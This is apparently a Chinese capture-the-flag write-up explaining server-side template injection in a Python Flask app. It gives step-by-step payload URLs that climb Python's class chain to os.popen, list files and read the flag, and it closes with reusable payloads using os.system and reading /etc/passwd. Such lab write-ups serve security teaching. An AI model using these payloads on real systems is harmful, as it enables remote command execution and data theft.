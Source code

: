 # Web_python_template_injection

## 解题思路：

- 首先看到题目，就知道这道题是关于 **模板注入** 的，什么是模板注入呢？

    - 为了写html代码的时候方便，很多网站都会使用模板，先写好一个html模板文件，比如：

    ```python
    def test():
    code = request.args.get('id')
    html = '''
        <h3>%s</h3>
    '''%(code)
    return render_template_string(html)
    ```

    这段代码中的 `html` 就是一个简单的模板文件，当开发者想要这个模板对应的样式时，可以直接用 `render_template_string` 方法来调用这个模板，从而直接把这个样式渲染出来。

    而模板注入，就是指 **将一串指令代替变量传入模板中让它执行** ，以这段代码为例，我们在传入 `code` 值时，可以用 `{{}}` 符号来包裹一系列代码，以此替代本应是参数的 `id` ：

    ```
    http://..../?id={{代码}}
    ```

- 知道了什么是模板文件，接下来开始模板注入环节:

    首先，先测试一下是不是确实能注入，构造一个简单的测试url:

    `http://111.198.29.45:46675/{{7*7}}`

    服务器回传：

    `URL http://111.198.29.45:46675/49 not found`

    `/49` 的存在说明 `7*7` 这条指令被忠实地执行了。

    接下来，开始想办法编代码拿到服务器的控制台权限：

    - 首先，题目告诉我们这是一个python注入问题，那么脚本肯定也是python的，思考怎样用python语句获取控制台权限：想到了 `os.system` 和 `os.popen` ([参考资料](https://blog.csdn.net/sxingming/article/details/52071514)), 这两句前者返回 **退出状态码** , 后者 **以file形式** 返回 **输出内容**, 我们想要的是内容，所所以选择 `os.popen` 。

    - 知道了要用这一句，那么我要怎么找到这一句呢？python给我们提供了完整的寻找链([参考资料](https://www.cnblogs.com/tr1ple/p/9415641.html))：

        - __class__  ： 返回对象所属的类

            __mro__    ： 返回一个类所继承的基类元组，方法在解析时按照元组的顺序解析。

            __base__   ： 返回该类所继承的基类
            
            // __base__和__mro__都是用来寻找基类的

            __subclasses__   ： 每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表

            __init__  ： 类的初始化方法

            __globals__  ： 对包含函数全局变量的字典的引用

    - 首先，找到当前变量所在的类：

        `111.198.29.45:46675/%7B%7B''.__class__%7D%7D`

        服务器回复：

        `URL http://111.198.29.45:46675/<type 'str'> not found`

        发现这个回复里已经告诉我们 这个变量的类是 'str' 了。

    - 接下来，从这个类找到它的基类：

        `http://111.198.29.45:46675/%7B%7B''.__class__.__mro__%7D%7D`

        服务器回复：

        `URL http://111.198.29.45:46675/(<type 'str'>, <type 'basestring'>, <type 'object'>) not found`

        发现基类也有了。

    - 然后，通过基类来找其中任意一个基类的引用列表：

        `http://111.198.29.45:46675/%7B%7B''.__class__.__mro__[2].__subclasses__()%7D%7D`

        这里有个小细节，`__mro__[]` 中括号里填谁其实区别都不大，这些基类引用的东西都一样。

        服务器回复了很长的一个列表，我就不列举了，从其中可以找到我们想要的 `os` 所在的 `site._Printer` 类，它在列表的第七十二位，即 `__subclasses__()[71]` 。

    - 通过 `__subclasses__()[71].__init__.__globals__['os'].popen('命令行语句').read()` 来 **调用服务器的控制台**  **并显示** ，这下我们就可以随便用控制台输出了。

        直接填命令语句：

        `http://111.198.29.45:46675/%7B%7B''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()%7D%7D`

        注意这里的 `popen('ls').read()` ,意思是 **得到ls的结果并读取给变量** ，因此它会把当前目录所有文件都打印在我们的网页上，内容如下：

        `URL http://111.198.29.45:46675/fl4g index.py not found`

        从这里我们看到，flag存在一个叫 `fl4g` 的无后缀文件里，那就好办了，再构造一个payload，用 `cat` 读一下内容：

        `http://111.198.29.45:46675/%7B%7B''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()%7D%7D`

        服务器回复：

        `URL http://111.198.29.45:46675/ctf{f22b6844-5169-4054-b2a0-d95b9361cb57} not found`

        flag到手~

## 注意事项：

- ```python
    ''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()
    ```

    以上payload是一个非常常用的payload，同样常用的还有

    ```python
    ''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')
    ```

    和

    ```python
    ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
    ```